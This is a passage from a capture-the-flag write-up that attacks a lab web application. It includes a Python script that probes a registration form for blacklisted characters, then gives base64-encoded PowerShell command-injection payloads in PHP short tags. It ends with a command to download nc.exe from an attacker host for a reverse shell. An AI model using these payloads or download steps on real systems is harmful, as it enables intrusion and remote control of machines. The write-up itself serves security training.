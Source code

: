 ## Blacklisting
Attempting to creat a username with specific characters such as `$` is unsuccessful, which indicates the presence of a `blacklist`. In order to figure out which characters are forbidden, we can create a python script which creates credentials with each symbol and then attempts to login . if the login is denied then that means that the chracter is forbidden. 
```python
import requests
import string
import random

loginurl = "http://10.10.10.151/user/login.php"
registerurl= "http://10.10.10.151/user/registration.php"
#Get all the symbols and add them in a list
characters = string.punctuation
#pick a random number of characters to fill in the forms
rand = "A" * random.randint(1,10)
print("Blacklisted Characters: ")
#Iterate the list
for char in characters:
    #keep the single character in a variable
    original = char
    #Fill the username and password with letters
    char = rand + char
    data = {'email':'test@test.test', 'username':char, 'password':char,'submit':''}
    r = requests.post(url = registerurl, data = data)
    data = {'username':char, 'password':char, 'submit':''}
    r = requests.post(url = loginurl, data = data)
    #check if we can log in with that specific character in the username
    if "username/password is incorrect." in r.text:
        print(original)
```
Running the script with `python3 blacklist-check.py` gives the following output:
```
python3 blacklist-check.py
Blacklisted characters:
"
$
&
(
_
.
;
[
-
```
This identified that the characters `$&'(-.;[_` are blacklisted. we can use base64 encoding to bypass the blacklist . let's encode the `whoami` command.
```bash
echo whoami | iconv -t utf-16le| base64
dwBoAG8AYQBtAGkACgA=
```
As the default local for Windows is `UTF-16LE`, we use `iconv` to convert to that locale befoere Base64 encoding. The final payload would be 
```
<?=`powershell /enc dwBoAG8AYQBtAGkACgA=`?>
```
### Shell
Inorder to gain a reverse shell we can upload `Netcat` to a writeable folder. we can start a simpleHTTPServer on our local an serve the file. Let's seperate the payload into multiple and execute them one by one.
First we'll create a `/tmp` where we can upload our `nc.exe` to it.
```
echo "mkdir /tmp;iwr http://10.10.14.40/nc.exe -outfile /tmp/nc.exe"| iconv -t UTF-16LE|base64

```